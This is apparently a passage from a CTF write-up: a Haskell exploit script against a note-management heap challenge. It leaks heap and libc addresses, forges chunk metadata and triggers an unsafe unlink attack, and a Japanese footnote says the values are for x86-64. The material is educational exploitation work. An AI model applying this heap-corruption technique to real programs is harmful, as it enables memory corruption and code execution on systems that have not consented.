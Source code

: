 ```haskell

      exit = do
        recvuntil r "Your choice: \n"
        sendline r "5"

  info "allocate 0x88 bytes buffer x4 (buffer 0..3)"
  replicateM_ 4 $ addNote 0x88 $ BS.replicate 0x88 'A'

  info "free buffer 2 and buffer 0"
  mapM_ deleteNote [2, 0]

  info "allocate 0x88 bytes buffer x2 (buffer 0, buffer 2)"
  addNote 0x88 $ BS.replicate 9 'a'
  addNote 0x88 $ BS.replicate 8 'b'

  info "leak informations"
  leak1 <- BS.drop 8 <$> showNote 0
  leak2 <- BS.drop 8 <$> showNote 2
  let Just heap_base'     = u64 $ leak1 <> BS.replicate (8 - BS.length leak1) '\x00'
      Just main_arena_top = u64 $ leak2 <> BS.replicate (8 - BS.length leak2) '\x00'

      heap_base   = heap_base' .&. complement 0xff
      main_arena  = main_arena_top - 0x58
      libc_base   = main_arena - libc_main_arena'

  success $ "  heap_base:  0x" <> showHex heap_base ""
  success $ "  main_arena: 0x" <> showHex main_arena ""
  success $ "  libc_base:  0x" <> showHex libc_base ""

  -------------------------------------------------------------------

  info "allocate [0x88, 0xf8, 0x88, 0x88] bytes buffer (buffer 4..7)"
  forM_ [0x88, 0xf8, 0x88, 0x88] $ \size -> addNote size $ BS.replicate size 'A'

  info "free buffer 5"
  deleteNote 5

  info "overwrite chunk 5's size"
  editNote 4 $ BS.replicate 0x88 'c' <> "\xf1"

  info "write fake prev_size via buffer 7"
  let buf = BS.concat $ catMaybes
            [ Just $ BS.replicate 0x50 'd'
            , p64 0x1f0
            ]
  editNote 7 buf

  info "allocate [0x108, 0x88] bytes buffer (buffer 5, buffer 8)"
  forM_ [0x108, 0x88] $ \size -> addNote size $ BS.replicate size 'A'

  info "set chunk 8's fd and bk, clear prev_inuse flag"
  let buf = BS.concat $ catMaybes
            [ p64 $ list + 0x18   -- fd
            , p64 $ list + 0x20   -- bk
            , Just $ BS.replicate 0x70 'd'
            , p64 0x90            -- prev_size
            , Just "\x50"         -- size
            ]
  editNote 8 buf

  info "free buffer 5 (unsafe unlink attack!)"
  deleteNote 5

```

[^1]: 値は x86-64 の場合